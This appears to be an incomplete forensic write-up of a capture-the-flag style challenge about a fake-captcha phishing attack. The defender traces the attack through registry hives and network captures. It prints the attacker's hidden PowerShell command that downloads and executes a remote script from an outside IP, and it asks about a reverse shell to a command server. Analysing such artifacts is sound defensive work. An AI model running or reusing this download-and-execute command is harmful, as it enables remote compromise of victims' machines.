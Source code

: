 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)

After checking that the download name it's the same as the execution name, we search for it in Export HTTP.

![](../../Img/Pasted%20image%2020250513154311.png)

Q4: To which port did the reverse shell connect?

A: 

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: 
